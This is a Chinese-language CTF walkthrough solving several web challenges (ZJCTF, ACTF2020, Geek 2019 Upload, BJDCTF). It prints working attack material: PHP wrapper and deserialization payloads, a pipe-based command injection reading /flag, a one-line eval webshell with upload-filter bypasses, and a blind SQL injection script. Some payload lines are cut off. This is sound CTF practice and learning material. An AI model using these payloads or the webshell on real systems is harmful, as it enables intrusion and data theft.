if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")) 
```

```
file_get_contents() 函数把整个文件读入一个字符串中。 
```

> 所以这个地方可以使用
> php://input伪协议
> 或者
> data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
> 故给出

```
 payload:text=php:

payload:text=data: 
```

base64解码后读取出useless.php源码

```
<?php  
class Flag{  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

<?php  
class Flag{  
    public $file = 'flag.php';  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
$password = new Flag();
$password = serialize($password);
echo $password; 
```

```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

故最终

```
payload:data: 
```


查看页面源代码即可获得flag

### [ACTF2020 新生赛]Include

> 打开网页
> 
> 点击链接
> 
> 此时观察URL
> 
> 很明显是一个文件包含，而且题目也提示是include
> 所以这里我们使用php://filter伪协议读取flag.php的源代码

```
payload:?file=php: 
```


base64解码即可得flag

### [ACTF2020 新生赛]Exec

> 打开网页
> 
> 很明显的命令执行
> payload:127.0.0.1|ls
> 

最终

```
payload:127.0.0.1| cat /flag 
```

### [极客大挑战 2019]Upload

> 打开网页
> 很明显是一个文件上传
> 这时候我们准备好一个webshell

**后缀绕过**
php,php3,php4,php5,phtml.pht

**一句话**

```
GIF89a
<script language="PHP">
@eval($_POST['cmd']);
</script> 
```

> 制作一个webshell.phtml进行上传
> MIME类型检测绕过
> 将text/php修改为image/jpeg
> 
> 打开蚁剑连接，然后cat /flag
> 

### [BJDCTF 2nd]简单注入

> 这里贴出一个自己的脚本吧，会写盲注脚本但是不懂怎么快速构造语句，哭了，还得努力。

```
import requests
url = "http://97e723eb-aaa8-4f2a-b274-b40fbeaccf3f.node3.buuoj.cn/index.php"
data = {"username":"admin\\",
        "password":""}
result = ""
for i in range(1,20):
    lmax = 127
    lmin = 33
    while lmax-lmin > 1:
        mid=(lmax+lmin) //2
        payload = "or/**/if(ascii(substr(password,{0},1))>{1},1,0)#".format(i, mid)
        data['password'] = payload
        res = requests.post(url,data=data)
        if res.text.find("stronger") > 1:
            lmin = mid
        else:
            lmax = mid
    result += chr(lmax)
print(result.replace(chr(lmin+1),'')) 
```

### [ACTF2020 新生赛]BackupFile

> 打开网页
> 
> 找备份源码
> 一开始我以为是找www.zip和backup这些等等，没想到最后却是index.php.bak
> 下载源码打开

```
<?php
include_once "flag.php";
if(isset($_GET['key'])) { 
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
} 
```

首先需要GET传递一个key值并且要与123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3
由于int和string类型是无法直接比较的，故php会将string类型转换为int类型进行比较，而转换int类型后只保留数字也就是123，故

```
payload:?key=123 
```